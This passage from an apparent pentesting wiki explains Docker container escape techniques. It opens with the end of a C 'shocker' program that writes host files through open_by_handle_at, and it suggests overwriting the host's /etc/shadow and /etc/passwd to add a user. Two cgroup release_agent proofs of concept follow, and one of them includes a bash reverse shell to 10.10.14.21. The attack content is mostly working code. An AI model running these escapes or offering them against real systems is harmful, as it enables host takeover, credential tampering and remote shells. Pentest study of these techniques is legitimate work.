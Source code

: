 ```c
  dump_handle( & h);
  if ((fd2 = open_by_handle_at(fd1, (struct file_handle * ) & h, O_RDWR)) < 0)
    die("[-] open_by_handle");
  char * line = NULL;
  size_t len = 0;
  FILE * fptr;
  ssize_t read;
  fptr = fopen(argv[2], "r");
  while ((read = getline( & line, & len, fptr)) != -1) {
    write(fd2, line, read);
  }
  printf("Success!!\n");
  close(fd2);
  close(fd1);
  return 0;
}
```

In order to scape the docker container you could **download** the files `/etc/shadow` and `/etc/passwd` from the host, **add** to them a **new user**, and use **`shocker_write`** to overwrite them. Then, **access** via **ssh**.

**The code of this technique was copied from the laboratory of "Abusing DAC\_OVERRIDE Capability" from** [**https://www.pentesteracademy.com/**](https://www.pentesteracademy.com/)\*\*\*\*

## `--privileged` flag

{% code title="Initial PoC" %}
```bash
# spawn a new container to exploit via:
# docker run --rm -it --privileged ubuntu bash
 
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o;
echo $t/c >$d/release_agent;
echo "#!/bin/sh $1 >$t/o" >/c;
chmod +x /c;
sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
{% endcode %}

{% code title="Second PoC" %}
```bash
# On the host
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
 
# In the container
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
 
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

#For a normal PoC =================
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#===================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/10.10.14.21/9000 0>&1" >> /cmd
chmod a+x /cmd
#===================================
```